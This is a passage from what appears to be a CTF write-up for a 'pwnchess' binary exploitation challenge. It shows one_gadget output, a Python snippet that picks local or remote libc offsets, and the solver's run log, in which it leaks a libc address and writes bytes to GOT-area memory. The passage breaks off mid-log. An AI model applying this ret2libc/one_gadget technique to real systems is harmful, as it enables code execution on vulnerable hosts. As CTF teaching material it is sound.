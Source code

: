 Success!

Referencing the output from one_gadget on the provided libc:

```
0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

We just need to slightly adjust our exploit to use a different offset when running remotely:

```python
if REMOTE:
    # Offset of one_gadget for the remote version of libc
    one_gadget_offset = 0x10a38c
else:
    # Offset of one_gadget for my local version of libc
    # You will need to change this to match your version of libc!!!
    one_gadget_offset = 0x106ef8
# calculate from libc base address to get runtime address
one_gadget_addr = libc.address + one_gadget_offset
```

And finally, run it with `REMOTE = True`:

```
$ ./solver_one_gadget.py 
[*] '/home/aaron/CTF-2019/pwn/300-pwnchess/distFiles/pwnchess'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/home/aaron/CTF-2019/pwn/300-pwnchess/distFiles/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 127.0.0.1 on port 31337: Done
[*] Leaked puts address: 0x7f1c1a3439c0
[*] Libc base address: 0x7f1c1a2c3000
[*] Switching to interactive mode
244
Enter address in decimal format (e.g. 12345): You entered: 0x60204b
Enter byte in decimal format (e.g. 255): You entered: 0x1a
Value(0x1a) written to 0x60204b
1) Perform a read
2) Perform a write
3) Exit
Remaining moves: 243
Enter address in decimal format (e.g. 12345): You entered: 0x60204c
Enter byte in decimal format (e.g. 255): You entered: 0x1c
Value(0x1c) written to 0x60204c
1) Perform a read
2) Perform a write
3) Exit
Remaining moves: 242
Enter address in decimal format (e.g. 12345): You entered: 0x60204d
Enter byte in decimal format (e.g. 255): You entered: 0x7f
Value(0x7f) written to 0x60204d
1) Perform a read
2) Perform a write
3) Exit
Remaining moves: 241
Enter address in decimal format (e.g. 12345): You entered: 0x60204e
```